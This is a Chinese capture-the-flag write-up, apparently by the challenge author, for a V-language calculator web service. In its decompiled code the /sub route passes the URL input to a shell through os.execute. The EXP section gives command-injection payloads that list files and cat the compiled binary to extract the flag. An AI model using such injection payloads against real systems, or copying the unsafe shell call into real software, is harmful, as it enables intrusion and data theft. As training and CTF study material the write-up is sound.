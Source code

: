 ## 简易计算器

题目:

> 我们发现vlang的轮子还是有点太少了
> 
> 出题人:sudopacman
> 
> 附件:https://wwtk.lanzoum.com/ifsqx2dugtwd
> 
> 远程环境:139.155.139.109:10005

本题为veb实现的简单网站, 提供两种做题方式:

### 模糊测试

对开放的三个路由进行测试, 可以发现sub使用了`sh`, 例如本地执行文件(使用linux环境执行, archlinux中存在兼容问题, 请使用debian类发行版)访问:http://localhost:10005/sub/;时返还`sh: 1: arithmetic expression: expecting primary: ";"`

同样访问其他两个路由无法绕过.

> 这里涉及到算术的简化问题, 因为加法和乘法不分前后, 是可以简单计算的, 但是减法涉及到了减数和被减数, 无法粗暴计算, 本题为简化代码于是直接调用dash进行计算, 出现注入口.

故可以构造exp, 参考下文.

### 逆向审计

```C
// Attr: [/add/:addsb]
VV_LOCAL_SYMBOL veb__Result main__App_addsb(main__App* app, main__Context* ctx, string addsb) {
        Array_string data = string_split(addsb, _SLIT("+"));
        int a = 0;
        for (int _t1 = 0; _t1 < data.len; ++_t1) {
                string i = ((string*)data.data)[_t1];
                a += string_int(i);
        }
        veb__Result _t2 = veb__Context_text(&ctx->Context, int_str(a));
        return _t2;
}

// Attr: [/sub/:subsb]VV_LOCAL_SYMBOL veb__Result main__App_subsb(main__App* app, main__Context* ctx, string subsb) {
        os__Result data = os__execute(string__plus(string__plus(_SLIT("echo $(("), subsb), _SLIT("))")));
        veb__Result _t1 = veb__Context_text(&ctx->Context, data.output);
        return _t1;
}

// Attr: [/sub/:mulsb]
VV_LOCAL_SYMBOL veb__Result main__App_mulsb(main__App* app, main__Context* ctx, string mulsb) {
        Array_string data = string_split(mulsb, _SLIT("*"));
        int a = 0;
        for (int _t1 = 0; _t1 < data.len; ++_t1) {
                string i = ((string*)data.data)[_t1];
                a *= string_int(i);
        }
        veb__Result _t2 = veb__Context_text(&ctx->Context, int_str(a));
        return _t2;
}
```

对三个路由进行审计, v中使用了`os__execute`(即`os.execute`函数)创建一个新进程调用echo进行计算, 题目运维已经想办法让其变得不安全, 故选手可以直接构造exp想办法获取sh.

有个地方设计我自认为设计得比较有趣, flag存放在编译好的web环境中, 如果没拿到shell的话处理起来会比较麻烦, 有一种粗暴的方法, 我们可以在本地环境找到flag的大致区间5000-5100(实际在相同情况下编译的字符位置的偏差不会那么大, 这里考虑为拿到相似程序进行处理), 然后直接对程序进行`cat`.

### EXP

```Python
/sub/0));ls;echo $((00
main
nohup.out
0

/sub/0));cat main|head -n 5100|tail -n +5000;echo $((0
```

![](web1.png)

> 这里向选手们道歉, 题目处理中存在一点问题, 导致服务器经常崩溃, 后续换上自动化恢复题目时忘记限制权限, 导致可以直接获取其他flag, 最终颁奖时严格审查wp, 尽量保证选手的公平性.
> 
> 这里特别感谢roko师傅对问题进行反馈.
